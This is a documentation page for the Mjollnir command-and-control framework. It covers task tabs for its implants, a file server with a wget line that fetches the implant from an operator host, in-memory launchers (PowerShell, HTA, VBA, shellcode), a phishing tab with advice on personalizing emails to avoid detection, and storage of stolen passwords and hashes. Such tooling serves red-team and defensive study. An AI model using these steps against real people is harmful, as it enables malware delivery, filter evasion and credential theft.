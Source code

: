 # Some more advanced Mjollnir's features

[< Index](index.md)

[> Interact with your Chocolate](chocolate-interaction.md)


So far, you know how to start a listener and how to build and interact with a Chocolate. Let's see some advanced features about **Mjollnir c2**.

## Different kind of tasks

Experimenting with your first Chocolate, you access it by clicking on the **Dashboard** tab. However there is a better way to do that. Click on the **Tasks** tab like the following:

![](images/advanced-features/tasks.png)

You will see 4 new tabs:
* **Tasks**: allows you to see all your active Chocolates and interact with them the way you did by clicking on the **Dashboard** tab
* **Bulk task**: allows you to select a **group** of Chocolates and order them to execute a specific task
* **Batch task**: allows you to select one Chocolate and order to it to execute tasks after tasks automatically
* **On registering task**: allows you to execute several tasks as soon as a Chocolate registers

Those for tabs are very usefull, and I am sure you already know when use them.

## Make your Chocolate downloadable

When you create a Chocolate, you may want it to be downloaded by the victim. Hopefully, this is easily feasible!

Once built, your agent will be available on the **Up/download** tab as the following:

![](images/advanced-features/updownload.png)

And thus you can access it easily. But in order to do that, you will have to set a **File server** first.

To start a **File server** you have to go to the **Listeners** tab and select **File server**, and specify the **Bind address** and **Bind port**.

![](images/advanced-features/file_server.png)

Then you should be able to download your Chocolate or some others file like:
```
wget http://IP:PORT/files/chocolate_win_http.exe
```

## Use a Launcher

So, ok it is nice to make your Chocolate downloadable, but sometimes you don't want to drop on the victim's disk your Chocolate. In that case, you would like to use **powershell**, **vba**, a **shellcode** and so on that will download your Chocolate and executes it in memory.

You can do that into Mjollnir. Select the **Launchers** tab like the following:

![](images/advanced-features/launchers.png)

You have to specify the type of the launcher you would like to use:
* powershell
* hta
* vba
* shellcode
* pe

You can use the one you want and implement one that is not listed too.

The **launcher name** is the name of the launcher that will be available into the **Up/download** tab. So you must start a **File server** first.

By the way, you have to specify the **file server ip** and the **file server port**.

And obviously you have to indicate the name of the Chocolate that will be downloaded. The Chocolate has to be available on the **Up/download** tab.

## You say Phishing?

Well, you know how to create your **launcher** that will download your **Chocolate** and executes it in memory. But how to make the victim download and execute your launcher?

There is a **Phishing** tab. Let's see it:

![](images/advanced-features/phishing.png)

You can define the **campaign's name**, the **SMTP server* you want to use, as well as the **SMTP port**. 

You can define the **source email** / **source email password** that will send the phishing emails. The **display name** is the name that will appears into the victime email. 

You have to create an **email template** in HTTP format. You could add one attachement if needed.

The important point is the **Emails list**. The email list has a **?** next to it. Because it needs some explanations.

If you send, let's say, 2000 identical emails to a company, there are good chances that there will be tagged as phishing (well it is). But if each email is sligtly different, perhaps user personalized, those email will not be tagged as phishing.

Knowing that, you have to create your template carefully included some {{TAG}} into it. Those {{TAG}} will also be into the **Emails lists**.

As an example of **template**:
```
<html>
    <body>
        Hello {{USERNAME}}, thank you for registering with the email: {{EMAIL}} at the date {{DATE}}

        Please submit that {{CODE}} to the application in order to validate your authentication.
    </body>
</html>
```

And an example of **Emails list**:
```
EMAIL,USERNAME,DATE,CODE
thor@mjollnir.fr,Thor God of Thunder,01/01/1900,12345
freyja@mjollnir.fr,Freyja,02/02/1900,54321
odin@mjollnir.fr,Odin,03/03/1900,09876
```

You phishing campaign is availabe on the **Dashboard** tab:

![](images/advanced-features/phishing_list.png)

You can click the corresponding raw, and update your campaign before submitting it !

![](images/advanced-features/phishing_update.png)

## Save your loots

Now that you know how to propagate your Chocolate, and you get some importants informations such as **password** and **hash** of the victim machine, you may want to save them.

There is a **Loots** tab specially crafted for that:

![](images/advanced-features/loots.png)